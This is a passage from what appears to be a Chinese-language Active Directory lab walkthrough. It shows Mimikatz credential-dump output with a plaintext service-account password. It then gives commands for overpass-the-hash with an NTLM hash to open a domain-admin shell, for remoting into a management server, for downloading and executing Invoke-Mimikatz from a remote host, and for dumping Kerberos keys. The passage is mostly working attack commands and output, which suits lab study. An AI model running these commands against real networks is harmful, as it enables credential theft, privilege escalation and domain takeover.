          * Username : websvc
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : AServicewhichIsNotM3@nttoBe
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 11/26/2020 8:41:23 AM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DCORP-ADMINSRV$
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 11/26/2020 8:41:22 AM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : DCORP-ADMINSRV$
         * Domain   : dcorp
         * Password : (null)
        kerberos :
         * Username : dcorp-adminsrv$
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
        ssp :
        credman :

mimikatz(powershell) # exit
Bye!
```

现在在dcorp-adminsrv机器上我们有了srvadmin的哈希，可以回到学习机器上使用Over pass the hash开启一个有域管理员权限的shell
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:srvadmin /domain:dollarcorp.moneycorp.local  /ntlm:a98e18228819e8eec3dfa33cb68b0728 /run:powershell.exe"'
```


Enter-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local


iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)


Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

```